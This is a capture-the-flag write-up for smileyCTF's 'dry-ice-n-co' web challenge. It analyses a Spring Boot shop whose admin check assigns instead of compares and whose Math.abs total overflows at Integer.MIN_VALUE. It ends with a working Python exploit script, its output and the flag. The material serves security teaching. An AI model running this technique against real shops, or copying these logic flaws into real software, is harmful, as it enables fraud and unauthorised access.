


# dry-ice-n-co

## Introduction

smileyCTF

**Category:** Web Exploitation

**Write-up date:** 18/06/2025

**Question:**
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code `SMILEICE` at checkout for 20% off! That's coupon code `SMILEICE` at checkout for 20% off!

**Point:** 138 points

## Source code analysis

First impression, this chall source code is written from java, springboot application for exact. This application is
written follow MVC design pattern so it kinna easy for us to read the source code.

Looking at the code, we can see that the requirement for the flag is in `ShopController.java`

```java
private final List<DryIceProduct> availableProducts = new ArrayList<>(Arrays.asList(
        new DryIceProduct("flag", 1000000, "you should buy one of these (if you can afford it)"),
        new DryIceProduct("Small Block", 16, "5kg block of dry ice, perfect for small coolers"),
        new DryIceProduct("Medium Block", 30, "10kg block of dry ice, ideal for medium-sized coolers"),
        new DryIceProduct("Large Block", 50, "20kg block of dry ice, great for large coolers"),
        new DryIceProduct("Pellet Pack", 20, "5kg of dry ice pellets, perfect for shipping")
));
```

But when the user start, the application give us 100$. So somehow we have to buy a 1000000\$ item with 100\$

```java
public ShoppingCart() {
    this.items = new ArrayList<>();
    this.balance = 100; // Initial balance of $100
    this.couponCode = null;
}
```

Then how can we do this chall, thanks to some logic bug in route `/admin/add-product`, we could add something we want
into the website without admin permission.

```java

@PostMapping("/admin/add-product")
public String addProduct(@RequestParam String name,
                         @RequestParam int price,
                         @RequestParam String description,
                         HttpSession session) {
    User user = (User) session.getAttribute("user");
    if ((user.admin = true) && user != null && name != "flag") {
        availableProducts.add(new DryIceProduct(name, price, description));
    }
    return "redirect:/";
}
```

Look carefully, in the if statement, the `user.admin` is assignment, not comparison, meaning the website are not check
for admin, just checking for other one, therefor making us able to add product.

We can assign some negative number, hopping when buy the balance will go up. But when add negative item into the cart,
they suddenly turn into positive number.



In the `getTotal` function, to avoid any negative number the application get te total then use `Math.abs(total)` to get
the positive value of the cart.

```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);

    if (isCouponValid()) {
        total = (int) (total * (100.0 - (double) DISCOUNT_PERCENTAGE) / 100.0);
    }

    return total;
}
```

But `Math.abs()` have a hidden secret that it will take any 2's complement of the num as the positive value meaning that
when we use `Integer.MIN_VALUE`, the abs will be `Integer.MIN_VALUE` as well.

```java
public static int abs(int a) {
    return a < 0 ? -a : a;
}
```

But when we add using the min value, the balance will overflow result in our balance will become `Integer.MIN_VALUE`. So
using the coupon code earlier, we can reduce the total of the cart, effectively add some cash into our balance.



Using that balance, we can easily buy our flag.

## Exploit

```python
import random
import re

import requests

URL = "https://web-dry-ice-n-co-gkyz1s6q.smiley.cat"


def main():
    product_name = "Test Product" + str(random.randint(1, 10000))
    session = requests.Session()
    print("[+] Get new JSESSIONID.")
    session.get(URL)
    print("[+] Add new item that have Integer.MIN_VALUE price.")
    session.post(f"{URL}/admin/add-product", {
        "name": product_name,
        "description": "Test Product",
        "price": -2147483648,
    })
    print("[+] Add new item that have Integer.MAX_VALUE price.")
    session.post(f"{URL}/add", {
        "productName": product_name,
        "quantity": 1
    })
    print("[+] Apply coupon to avoid integer overflow.")
    session.post(f"{URL}/apply-coupon", {
        "couponCode": "SMILEICE"
    })
    print("[+] Buying negative item to add balance into account.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Balance:", re.findall(r"(?<=<h3 class=\"text-center\">\$<span>)\d+", req.text)[0])
    print("[+] Add flag into cart.")
    session.post(f"{URL}/add", {
        "productName": "flag",
        "quantity": 1
    })
    print("[+] Buying flag.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Flag:", re.findall(r"(?<=<pre>)[^<]+", req.text)[0])

if __name__ == "__main__":
    main()
```

Output

```
[+] Get new JSESSIONID.
[+] Add new item that have Integer.MIN_VALUE price.
[+] Add new item that have Integer.MAX_VALUE price.
[+] Apply coupon to avoid integer overflow.
[+] Buying negative item to add balance into account.
[+] Balance: 1717987018
[+] Add flag into cart.
[+] Buying flag.
[+] Flag: .;,;.{this_is_not_a_political_statement_btw}
```

**FLAG:** .;,;.{this_is_not_a_political_statement_btw}
